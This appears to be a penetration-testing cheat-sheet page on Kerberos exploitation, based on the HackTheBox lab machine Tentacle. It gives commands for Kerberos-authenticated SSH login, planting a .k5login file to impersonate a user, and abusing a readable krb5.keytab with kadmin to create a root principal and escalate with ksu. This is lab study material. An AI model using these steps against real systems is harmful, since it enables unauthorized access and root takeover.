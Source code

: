 ```yaml
---
description: >-
  Kerberos Exploitation
title: Kerberos Exploitation              # Add title here
date: 2023-01-23 08:00:00 -0600                           # Change the date to match completion date
categories: [06 Exploitation, Kerberos Exploitation]                     # Change Templates to Writeup
tags: [exploitation, kerberos, gssapi, k5login, krb5.conf, krb5.keytab]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Authentication method gssapi-with-mic (krb5.conf file)
If we receive the following message while trying to authenticate with any service:
```bash
debug1: SSH2_MSG_EXT_INFO received
debug1: kex_input_ext_info: server-sig-algs=<ssh-ed25519,ssh-rsa,rsa-sha2-256,rsa-sha2-512,ssh-dss,ecdsa-sha2-nistp256,ecdsa-sha2-nistp384,ecdsa-sha2-nistp521>
debug1: SSH2_MSG_SERVICE_ACCEPT received
debug1: Authentications that can continue: gssapi-keyex,gssapi-with-mic,password
debug1: Next authentication method: gssapi-with-mic
```
This means that kerberos is running for the authentication of such services, to abuse of such configuration we need to install krb5-conf, it will create an environment on our machine that will allow kali to run as a kerberos client:
```bash
apt-get install krb5-user
```
Once that we receive a prompt asking for a domain we enter the realcorp.htb domain:
![[Pasted image 20230123134328.png]]
Then add the machine's IP twice:
![[Pasted image 20230123134422.png]]
The installation creates a fille called /etc/krb5.conf which we'll modify as follows:
```bash
[libdefaults]
 default_realm = REALCORP.HTB
[realms]
 REALCORP.HTB = {
 kdc = srv01.realcorp.htb:88
 }
[domain_realm]
 .realcorp.htb = REALCORP.HTB
 realcorp.htb = REALCORP.HTB
```
Then in order to connect to the SSH port we can use the following command which will ask for the password:
```bash
kinit j.nakazawa
Password for j.nakazawa@REALCORP.HTB:
```
After submit the password we'll find that there is a register with this same password created:
```bash
klist             
Ticket cache: FILE:/tmp/krb5cc_0
Default principal: j.nakazawa@REALCORP.HTB

Valid starting       Expires              Service principal
01/23/2023 15:10:38  01/24/2023 15:10:38  krbtgt/REALCORP.HTB@REALCORP.HTB
```
This should allow us to login without password via ssh:
```bash
ssh j.nakazawa@10.10.10.224                                            
j.nakazawa@10.10.10.224's password:
```
If still not possible to login via SSH then we need to sync the DC time with our machine:
```bash
ntpdate 10.10.10.224
2023-01-23 15:13:01.504643 (-0500) +1.004272 +/- 0.038425 10.10.10.224 s10 no-leap
CLOCK: time stepped by 1.004272
```
Then we'll be able to login:
```bash
ssh j.nakazawa@10.10.10.224
Activate the web console with: systemctl enable --now cockpit.socket

Last failed login: Mon Jan 23 20:05:55 GMT 2023 from 10.10.14.2 on ssh:notty
There were 11 failed login attempts since the last successful login.
Last login: Thu Dec 24 06:02:06 2020 from 10.10.14.2
[j.nakazawa@srv01 ~]$ whoami
j.nakazawa
```
> Notice that if we want to login to a specific machine via hostname, the `/etc/hosts` file needs to has the hostname of the machine at the very beginning.
{: .prompt-warning }

Examples:
[Tentacle](https://shuciran.github.io/posts/Tentacle/#fnref:gssapi-with-mic)

### .k5login file
If we can create a .k5login file inside the /home of a user we can login with it always that we already have a Principal created with the krb-user tool, all we need to do is execute the following command:
```bash
echo 'j.nakazawa@REALCORP.HTB' > .k5login
```
Examples:
[Tentacle](https://shuciran.github.io/posts/Tentacle/#fnref:k5login)

### Abusing krb5.keytab
If we get a krb5.keytab file we can abuse of it to list, create and login Service Name Principals:
```bash
klist -k /etc/krb5.keytab # list all the Principals
kadmin -kt /etc/krb5.keytab -p kadmin/admin@REALCORP.HTB # Interactive shell as Principal kadmin/admin this needs to be a Principal from klist
kadmin: addprinc root@REALCORP.HTB # Create a Principal (password required)
Enter password for principal "root@REALCORP.HTB": 
Re-enter password for principal "root@REALCORP.HTB": 
Principal "root@REALCORP.HTB" created. 
ksu
WARNING: Your password may be exposed if you enter it here and are logged in remotely using an unsecure (non-encrypted) channel. 
Kerberos password for root@REALCORP.HTB: : 
Authenticated root@REALCORP.HTB
```
Finally we can use it to login the machine:
Examples:
[Tentacle](https://shuciran.github.io/posts/Tentacle/#fnref:krb5-keytab)